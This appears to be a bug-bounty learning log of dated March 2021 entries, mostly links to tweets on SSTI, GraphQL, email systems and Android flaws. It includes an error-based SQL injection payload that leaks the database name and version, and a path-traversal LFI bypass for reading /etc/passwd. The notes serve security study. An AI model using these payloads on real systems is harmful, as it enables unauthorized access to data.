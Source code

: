 
# 📅 27-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 85
- [SSTI](https://twitter.com/harshbothra_/status/1375470661741645826?s=20)


# 📅 29-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 86
- [Exploiting Graphql](https://twitter.com/harshbothra_/status/1375743272253943810?s=20)
- [Exploiting Email Systems](https://twitter.com/harshbothra_/status/1376156330075987973?s=20)

## SQL Injection
```sql
SELECT * FROM(SELECT COUNT(*),CONCAT(database(),'--',(SELECT (ELT(1=1,version()))),'--','_Y000!_',FLOOR(RAND(1)*1))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x) a
```
![img](https://pbs.twimg.com/media/ExlzEroWEAIYMXm?format=jpg&name=small)

## LFI Bypass
Wildcard bypass & LFI
1. Intercepted a POST req that pointed to a local file "/usr/local/redacted/filename"
2. tried "/etc/passwd" -> bad request
3. "/user/local/../../etc/passwd" -> bad request
4. "/user/local/redacted/../../../etc/passwd" -> OK
5. LFI & bounty
***Source: ***https://twitter.com/11xuxx/status/1252905397259767808?s=20

# 📅 31-Mar-2021
## Playing in the (Windows) Sandbox
- https://research.checkpoint.com/2021/playing-in-the-windows-sandbox/?s=09

## Common Android Application Vulnerabilities
- https://twitter.com/harshbothra_/status/1376941691253399559?s=20
